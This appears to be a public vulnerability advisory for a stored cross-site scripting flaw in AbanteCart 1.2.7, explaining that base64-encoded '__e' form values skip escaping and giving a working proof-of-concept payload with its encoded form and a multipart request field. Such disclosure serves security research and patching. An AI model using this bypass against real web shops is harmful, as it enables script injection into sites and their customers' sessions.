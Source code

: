 # Exploit Title: AbanteCart 1.2.7 Stored XSS
# Date: 06-12-2016
# Software Link: http://www.abantecart.com/
# Exploit Author: Kacper Szurek
# Contact: http://twitter.com/KacperSzurek
# Website: http://security.szurek.pl/
# Category: webapps

1. Description

By default all user input is escaped using `htmlspecialchars`.

But we can pass `__e` value which is base64 encoded and unfortunatelly those datas are not cleaned.

http://security.szurek.pl/abantecart-127-stored-xss-and-sql-injection.html

2. Proof of Concept

For example `address_1="><script>alert(2);</script>&` can be encoded as: `__e=YWRkcmVzc18xPSI+PHNjcmlwdD5hbGVydCgyKTs8L3NjcmlwdD4m`.

So create new order and set `address_1` value as `__e` using for example Burp:

```
Content-Disposition: form-data; name="__e"

YWRkcmVzc18xPSI+PHNjcmlwdD5hbGVydCgyKTs8L3NjcmlwdD4m
```
